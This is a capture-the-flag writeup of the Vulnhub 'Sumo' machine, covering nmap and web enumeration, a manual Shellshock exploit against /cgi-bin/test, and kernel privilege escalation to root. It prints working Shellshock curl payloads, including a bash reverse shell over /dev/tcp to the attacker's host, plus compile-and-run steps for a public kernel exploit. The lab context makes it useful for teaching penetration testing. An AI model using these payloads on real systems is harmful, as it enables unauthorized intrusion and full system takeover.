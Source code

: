 ```yaml
---
title: Vulnhub - Sumo Writeup
description: My writeup on sumo box.
categories:
 - vulnhub
tags: vulnhub
---
```


Hi all, let's pwn this box.

You can find the machine there > [Sumo](https://www.vulnhub.com/entry/sumo-1,480/){:target="_blank"}

Let's start as always with a nmap scan.

```bash
$ ip=192.168.1.104
$ nmap -sC -sV -p- -oN nmap.txt $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-17 22:42 EEST
Nmap scan report for ubuntu.zte.com.cn (192.168.1.104)
Host is up (0.0010s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 06:cb:9e:a3:af:f0:10:48:c4:17:93:4a:2c:45:d9:48 (DSA)
|   2048 b7:c5:42:7b:ba:ae:9b:9b:71:90:e7:47:b4:a4:de:5a (RSA)
|_  256 fa:81:cd:00:2d:52:66:0b:70:fc:b8:40:fa:db:18:30 (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 00:0C:29:96:B7:F9 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's enumerate `http`, i always run gobuster/dirb.

```bash
$ gobuster dir -q -u http://$ip/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x .php,.txt -o gobuster.txt
/index (Status: 200)
/server-status (Status: 403)
$ dirb http://$ip/ -o dirb.txt                                  
---- Scanning URL: http://192.168.1.104/ ----
+ http://192.168.1.104/cgi-bin/ (CODE:403|SIZE:289)                                    
+ http://192.168.1.104/index (CODE:200|SIZE:177)                                       
+ http://192.168.1.104/index.html (CODE:200|SIZE:177)                                  
+ http://192.168.1.104/server-status (CODE:403|SIZE:294)     
```

Fucking weird, always hate when that happens haha, but `cgi-bin` was scratching my mind seems like an exploitation vector for shellshock! Let's run `nikto`.

```bash
$ nikto -host http://$ip/
... junk data ...
+ OSVDB-112004: /cgi-bin/test: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271).
+ OSVDB-112004: /cgi-bin/test.sh: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271).
```

Bingo! Let's exploit it manually. w/ 2 words, shellshock is a code injection attack on bash 4.3 and earlier. We can exploit with msf, or with another tool, but i'll go the manual way.

```bash
$ curl -A '() { :;}; echo "Content-Type: text/plain"; echo; /bin/ls' http://$ip/cgi-bin/test
test
test.sh
```

Great, let's spawn a shell.

```bash
$ curl -A '() { :;}; echo "Content-Type: text/plain"; echo; /bin/bash -i >& /dev/tcp/$your_ip/5555 0>&1' http://$ip/cgi-bin/test
```

We have a shell!

```bash
$ nc -lvp 5555
listening on [any] 5555 ...
connect to [$your_ip] from ubuntu.zte.com.cn [192.168.1.104] 49054
bash: no job control in this shell
www-data@ubuntu:/usr/lib/cgi-bin$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/usr/lib/cgi-bin$ whoami
whoami
www-data
```

After lot of enumeration i found nothing, so i tried to search for kernel exploits. Let's check the kernel version.

```bash
$ uname -r
3.2.0-23-generic
```

Let's search for an exploit.

```bash
$ searchsploit 3.2.0 --exclude="windows|php|hardware"
----------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                         |  Path
----------------------------------------------------------------------- ---------------------------------
Linux Kernel 3.2.0-23/3.5.0-23 (Ubuntu 12.04/12.04.1/12.04.2 x64) - 'p | linux_x86-64/local/33589.c
Linux Kernel < 3.2.0-23 (Ubuntu 12.04 x64) - 'ptrace/sysret' Local Pri | linux_x86-64/local/34134.c
```

First one seems interesting, let's test it out. I had troubles compile it but i found the solution, if you cant compile it do this :

```bashn
www-data@ubuntu:/tmp$ export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin
```

`ld` PATH was missing.

Let's compile & run it now.

```bash
www-data@ubuntu:/tmp$ /usr/bin/gcc 33589.c -O2 -o givemeroot
/usr/bin/gcc 33589.c -O2 -o givemeroot
www-data@ubuntu:/tmp$ ./givemeroot 0
./givemeroot 0
IDT addr = 0xffffffff81dd7000
Using int = 3 with offset = -49063
root@ubuntu:~# whoami; id
whoami; id
root
uid=0(root) gid=0(root) groups=0(root)
```

Let's read the flag.

```bash
root@ubuntu:~# cat /root/root.txt
cat /root/root.txt
{Sum0-SunCSR-2020_r001}
```

Easy one, See you!
